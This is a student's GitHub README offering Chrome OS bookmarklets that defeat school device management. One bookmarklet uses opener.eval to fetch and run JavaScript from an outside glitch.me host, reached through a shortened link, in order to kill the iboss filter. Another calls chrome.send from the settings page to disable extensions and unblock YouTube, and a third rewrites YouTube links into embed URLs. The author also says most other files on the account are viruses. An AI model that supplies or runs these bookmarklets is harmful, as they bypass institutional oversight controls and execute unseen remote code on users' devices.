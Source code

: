 # PUBLIC
please do not download any files from my github account that don't have tutorials on them, most of them are viruses. see [here](https://github.com/Sreekar617/mvhs_moment) for more details

## Tools for teachers and responsible students. If you do not have a brain, turn back now. This repo is only for people with brains.
## I do not condone any misuse of the tools included here. Use responsibly and at your own risk.
## Everything on this page is for educational purposes to see how far we can push Chrome OS, the pathetic excuse for an operating system that runs on pathetic excuses for computers.

<details>

<summary><b>blow up iboss</b></summary>

1. Bookmark any page
2. Copy the code below
```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
3. Right click on the bookmark, click on "edit"
4. Under the field labeled "URL", paste in the code.
5. Go to [this page.](https://tinyurl.com/byeswamp)
6. Click on "The Blue Hat Crew Is the Best!"
7. On the blank page that appears, click on the bookmark you created earlier.
8. I recommend clicking "Soft Kill", which resets every time you restart your chromebook. "Hard Kill" will not reset when you restart, but it breaks some other things.

</details>

  
<details>
  
  <summary><b>extension thingie for youtube</b></summary>
  
1. Copy the code below
  ```js
  javascript:opener.chrome.send("TurnOffSync");
  ```
2. Bookmark any random page
3. Right click on the bookmark, and hit "Edit"
4. Under the field labeled "URL", paste in the code
5. Visit chrome://settings/resetProfileSettings
6. Press on "current settings"
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/230745894-49e77af2-b4e5-4441-b7d3-075c7674ff58.png">
  
7. On the new page that opens, click on the bookmark you created earlier.
8. visit chrome://restart, DO NOT RESTART YOUR CHROMEBOOK MANUALLY
9. repeat steps 5-8 every time it stops working.
10. if google sign-ins break, restart your device.

Go to youtube, click the lock next to the url, click on "cookies and site data", and delete all cookies. In a new tab, go to youtube. It should be unblocked.

</details>

<details>
  
<summary><b>Youtube trick for teachers</b></summary>
  
## Part 1: Saving the script
1. Copy the code below.
```
javascript:(function()%7Bvar theId %3D window.location.href%3Bvar theOtherId %3D window.location.href%3Bvar YouTube %3D "youtube"%3Bvar YouTube2 %3D "https%3A%2F%2Fyoutu.be%2F"%3Bvar YouTube3 %3D "http%3A%2F%2Fyoutu.be%2F"%3Bvar YouTube4 %3D "youtu.be%2F"%3Bif (theId.indexOf(YouTube) >%3D 0) %7Bvar string %3D theId.split('%3D')%3BtheId %3D string%5B1%5D%3B%7Dif (theId.indexOf(YouTube2) >%3D 0) %7Bvar sString %3D theId.split('%2F')%3BtheId %3D sString%5B3%5D%3B%7Dif (theId.indexOf(YouTube3) >%3D 0) %7Bvar ssString %3D theId.split('%2F')%3BtheId %3D ssString%5B3%5D%3B%7Dif (theId.indexOf(YouTube4) >%3D 0) %7Bvar sssString %3D theId.split('%2F')%3BtheId %3D sssString%5B3%5D%3B%7Dvar newId %3D theId.match(%2F.%7B1%2C11%7D%2Fg)%3Bvar otherId %3D theOtherId.split('%26')%3BotherId.splice(0%2C 1)%3Bvar otherPartId %3D "%3F" %2B otherId%5B0%5D%3BotherId.splice(0%2C 1)%3Bfor(i %3D 0%3B i<otherId.length%3B i%2B%2B)%7BotherPartId %2B%3D '%26'%3BotherPartId %2B%3D otherId%5Bi%5D%3B%7Dvar customLink %3D 'https%3A%2F%2Fwww.youtube-nocookie.com%2Fembed%2F' %2B newId%5B0%5D %2B otherPartId %2B '%26autoplay%3D1'%3Bwindow.location.href %3D '' %2B customLink%7D)()
```
2. Bookmark this page, then right click on the bookmark and hit "Edit"
3. Name it whatever you want.
4. Delete everything currently in the box labeled "URL"
5. Paste in the code you copied earlier
6. Press "Done" to save the script.
## Part 2: Executing the script
1. Navigate to any Youtube video
2. Click on the bookmark you created earlier
3. It should redirect you to an unblocked link
4. Share the current link with students. It should be unblocked.

</details>

i love rice
